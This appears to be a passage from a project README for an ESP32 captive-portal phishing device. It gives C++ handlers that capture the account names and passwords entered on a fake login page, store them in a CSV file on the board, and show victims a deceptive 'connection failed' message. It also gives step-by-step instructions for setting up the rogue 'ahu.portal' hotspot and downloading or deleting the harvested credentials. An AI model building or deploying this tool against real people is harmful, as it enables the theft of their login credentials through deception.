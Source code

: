 ### Data Submission Handling

```cpp
void handleSubmit() {
  String account = webServer.arg("account");
  String password = webServer.arg("password");

  Serial.printf("Received new data:\nAccount: %s\nPassword: %s\n\n", account.c_str(), password.c_str());

  File file = SPIFFS.open("/data.csv", FILE_APPEND);
  if (!file) {
    Serial.println("Failed to open file! Error code: " + String(file.getWriteError()));
    webServer.send(500, "text/plain", "Server storage error");
    return;
  }
  
  if (!file.printf("%lu,%s,%s\n", millis(), account.c_str(), password.c_str())) {
    Serial.println("Write failed! Free space: " + String(SPIFFS.totalBytes() - SPIFFS.usedBytes()) + " bytes");
    webServer.send(500, "text/plain", "Write failed");
  } else {
    Serial.println("Data saved");
    strip.setPixelColor(0, strip.Color(0, 255, 0)); // Set LED to green
    strip.setBrightness(10); // Set brightness (0-255)
    strip.show();
    webServer.send(200, "text/html; charset=utf-8", "<h2>Connection failed, please try again in 5 minutes!</h2>");
  }
  file.close();
}
```

### File Management

```cpp
void handleDelete() {
  if (SPIFFS.remove("/data.csv")) {
    Serial.println("File deleted");
    webServer.send(200, "text/plain; charset=utf-8", "File cleared");
  } else {
    webServer.send(500, "text/plain; charset=utf-8", "Delete failed");
  }
}
```

## Usage Instructions

1. Upload the code to the ESP32 development board.
2. Open the WiFi settings on your phone or computer and connect to the `ahu.portal` hotspot.
3. Open a browser and navigate to any website. You will be redirected to the fake login page.
4. Enter any credentials. The data will be logged and stored on the ESP32.
5. Access the `/download` endpoint to download the data file or `/delete` to delete it.
